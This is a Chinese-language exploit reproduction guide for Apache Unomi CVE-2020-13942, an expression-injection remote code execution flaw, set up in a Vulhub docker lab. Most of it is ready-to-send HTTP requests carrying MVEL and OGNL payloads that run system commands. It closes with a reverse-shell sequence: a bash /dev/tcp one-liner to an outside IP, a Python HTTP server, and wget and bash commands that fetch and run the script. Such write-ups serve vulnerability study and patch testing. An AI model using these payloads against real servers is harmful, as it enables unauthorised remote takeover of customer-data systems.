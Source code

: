 # Apache Unomi 远程表达式代码执行漏洞 CVE-2020-13942

## 漏洞描述

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

参考链接：

- https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/
- https://github.com/eugenebmx/CVE-2020-13942

## 环境搭建

Vulhub运行如下命令启动一个Apache Unomi 1.5.1的服务器：

```
docker-compose up -d
```

环境启动后，通过`http://your-ip:8181`或`https://your-ip:9443`即可访问到Unomi的API。

![image-20220302162129426](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021621659.png)

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以9443为例。

通过MVEL表达式执行任意命令，例如：`touch /tmp/awesome_poc`

```
POST /context.json HTTP/1.1
Host: your-ip:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

![image-20220302162332199](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021623415.png)

通过OGNL表达式执行任意命令：

```
POST /context.json HTTP/1.1
Host: your-ip:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

![image-20220302162509953](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021625450.png)

进入容器，可见命令已执行成功：

![image-20220302162528752](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021625913.png)

### 反弹shell

通过OGNL表达式执行任意命令，反弹shell。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021627471.png)

